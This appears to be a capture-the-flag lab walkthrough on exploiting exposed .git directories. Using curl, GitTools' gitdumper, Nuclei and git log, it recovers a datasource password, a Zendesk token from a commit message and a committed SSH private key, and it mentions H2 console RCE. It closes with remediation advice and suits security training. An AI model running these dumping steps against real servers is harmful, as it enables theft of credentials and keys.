







# Exposed .git Directory — Lab Walkthrough

## Overview

This lab involves two targets, both suffering from the same root cause: an exposed `.git` directory left publicly accessible on a live web server. This is a classic misconfiguration that occurs when a developer runs `git init` (or deploys a project folder as-is) inside a web-servable directory, without excluding the `.git` folder from being served.

When `.git` is exposed over HTTP, an attacker can reconstruct the entire repository — source code, configuration files, and full commit history — without any authentication. Tools like **GitTools** (Gitfinder, Gitdumper, Extractor) automate this process.

- **Website A:** `http://notwp.sbt` — a Spring Boot / Java application
- **Website B:** `http://wp.sbt` — a WordPress site with a git repo exposed inside the active theme

---

## Website A — Spring Boot Application

### Step 1: Locate the exposed `.git` directory

By convention, an exposed `.git` folder sits at the web root. A quick check confirms this:

```bash
curl -s -o /dev/null -w "%{http_code}\n" http://notwp.sbt/.git/HEAD
```

This returns `200`, confirming the git directory is publicly reachable at:

```
/.git/
```

**Answer (Q1): `/.git/`**

### Step 2: Dump the repository with GitTools' Gitdumper

```bash
cd ~/Desktop/GitTools/Dumper
bash gitdumper.sh http://notwp.sbt/.git/ /tmp/notwp-dump
```

Gitdumper pulls down `HEAD`, `config`, `index`, `objects/`, `refs/`, and `logs/` — everything needed to reconstruct the repo locally.



### Step 3: Reconstruct the working tree

```bash
cd /tmp/notwp-dump
git checkout .
```

This successfully restores the actual project files:

```
pom.xml
src/
```

A quick search locates the resource files:

```bash
find /tmp/notwp-dump/src -type f
```

which reveals `src/main/resources/application.properties`.

### Step 4: Identify the project

```bash
cat /tmp/notwp-dump/pom.xml
```

The `pom.xml` identifies this as a **Spring Boot 2.2.5.RELEASE** project (`com.noble.springboot:SpringBootWithH2:1.0.0`), described as a *"Client Assets Manager"*, using `spring-boot-starter-web`, `spring-boot-starter-data-jpa`, and an embedded **H2 database**.

### Step 5: Extract the datasource credentials

```bash
cat /tmp/notwp-dump/src/main/resources/application.properties
```



```properties
spring.h2.console.enabled=true
spring.datasource.url=jdbc:h2:mem:TEST;DB_CLOSE_DELAY=-1;
spring.datasource.username=sa
spring.datasource.password=noP@sX3211
spring.datasource.driver-class-name=org.h2.Driver
spring.datasource.platform=h2
spring.jpa.hibernate.ddl-auto=none
spring.jpa.properties.hibernate.dialect=org.hibernate.dialect.H2Dialect
```

This leaks the live datasource credentials directly.

**Answer (Q2): `noP@sX3211`** (username: `sa`)

> **Note:** With `spring.h2.console.enabled=true`, the H2 web console is reachable at `/h2-console`. Combined with valid credentials, this is a well-documented path toward further compromise (H2's `CREATE ALIAS` feature can be abused for remote code execution against authenticated console sessions).

---

## Website B — WordPress Site

### Step 1: Identify the correct Nuclei template

Since Website B is running WordPress, the generic `git-config.yaml` template is not the right fit — the correct match for a WordPress-specific exposed `.git` check is the WordPress-tagged template:

```bash
find ~ -iname "*git*.yaml" 2>/dev/null | grep -i nuclei
```



This surfaces:

```
/home/ubuntu/nuclei-templates/vulnerabilities/wordpress/wordpress-git-config.yaml
```

**Answer (Q3): `wordpress-git-config.yaml`**

### Step 2: Run the template against Website B

```bash
/home/ubuntu/Desktop/nuclei/nuclei -u http://wp.sbt \
  -t /home/ubuntu/nuclei-templates/vulnerabilities/wordpress/wordpress-git-config.yaml -v
```



Nuclei tests common WordPress paths and gets a hit:

```
[wordpress-git-config] [http] [info] http://wp.sbt/wp-content/themes/.git/config
```

Unlike Website A, the exposed repository here is **not at the web root** — it's nested inside the active theme directory, a common real-world mistake where a developer runs `git init` directly inside their custom theme folder for local version control, and it later gets shipped to production as-is.

**Answer (Q4): `/wp-content/themes/.git/`**

### Step 3: Dump the theme's git repository

```bash
cd ~/Desktop/GitTools/Dumper
bash gitdumper.sh http://wp.sbt/wp-content/themes/.git/ /tmp/wp-theme-dump
```



### Step 4: Review the commit history

```bash
cd /tmp/wp-theme-dump
git log --all --oneline
```



```
d7cb91a (HEAD -> master) intern again
ae23d56 This is the intern trying out git
cdcc348 Removed some unnecessary comments
1ea6d53 Fixed typo in content.php
5615619 Child sort added in content.php
81f20d5 Newly created zendesk access token: rX3dea78sdummY43sZ
8fc340f Updated and Refactored tag.php
76e6d9d Added logo for pt
e8fdb4e Updated single.php for polylang support
11bfd26 Added permalink to content-recent.php
8b3629f Updated search.php
b4c98da Moved to prod
```

This is a textbook example of why commit **messages** — not just diffs — matter to an attacker. One commit leaks a credential directly in its message text, with no need to inspect the actual code change:

```
81f20d5  Newly created zendesk access token: rX3dea78sdummY43sZ
```

Combined with the "intern again" / "This is the intern trying out git" messages, the history paints a clear picture: a junior developer learning git directly on a production-facing repository, committing sensitive information along the way.

**Answer (Q5): A Zendesk access token (`rX3dea78sdummY43sZ`) leaked directly in a commit message.**

### Step 5: Hunt for sensitive files committed to history

Beyond commit messages, the full file history can reveal sensitive files that were committed and later possibly removed from the working tree, but still recoverable via git history:

```bash
git log --all --name-only --pretty=format: | sort -u | grep -v '^$'
```



```
archive.php
author.php
category.php
common/files/d3v0nly/id_rsa
content-recent.php
content.php
editor-style.css
functions.php
home.php
img/en/logo.png
img/en/logoOld.png
img/es/logo.png
img/es/logoOld.png
img/pt/logo.png
img/pt/logoOld.png
page-timeline.php
page.php
search.php
single.php
style.css
tag.php
taxonomy.php
upw/equity-list.php
```

Most of this is standard WordPress theme boilerplate. Two entries clearly don't belong:

- `upw/equity-list.php` — likely internal business data (e.g. a cap table or shareholder equity list), unrelated to any theme functionality.
- `common/files/d3v0nly/id_rsa` — an **SSH private key**, added in commit `76e6d9d` ("Added logo for pt"), apparently swept in accidentally alongside unrelated logo assets.

The `id_rsa` file is by far the more critical finding: a leaked SSH private key can provide direct server or account access if it is still valid, making it a far higher-severity issue than the equity list.

```bash
git log --all --oneline -- common/files/d3v0nly/id_rsa
# 76e6d9d Added logo for pt

git show 76e6d9d:common/files/d3v0nly/id_rsa
```

**Answer (Q6): `id_rsa`** — a private SSH key mistakenly committed inside `common/files/d3v0nly/`.

---

## Summary of Findings

| # | Question | Answer |
|---|----------|--------|
| 1 | Git directory location — Website A | `/.git/` |
| 2 | Spring Boot datasource password | `noP@sX3211` |
| 3 | Nuclei template for WordPress git exposure | `wordpress-git-config.yaml` |
| 4 | Git directory location — Website B | `/wp-content/themes/.git/` |
| 5 | Interesting commit message | Zendesk access token leaked in commit message (`81f20d5`) |
| 6 | Sensitive file mistakenly committed | `id_rsa` (SSH private key) |

## Key Takeaways

1. **Never deploy a `.git` directory to a public web root.** Web servers should explicitly deny access to dotfiles/dot-directories, and CI/CD pipelines should strip `.git` from build artifacts before deployment.
2. **Commit messages are part of your attack surface.** Secrets pasted into commit messages are just as exposed as secrets in code — and are often overlooked by secret-scanning tools that only diff file contents.
3. **`git log` history persists even after a file is deleted.** Removing a sensitive file in a later commit does not remove it from history; the only real remediation is credential rotation and, ideally, history rewriting (e.g. `git filter-repo`) combined with treating the old secret as compromised.
4. **Application config files (like `application.properties`) should never contain plaintext credentials** in a repository, regardless of whether the repo is public — use environment variables or a secrets manager instead.
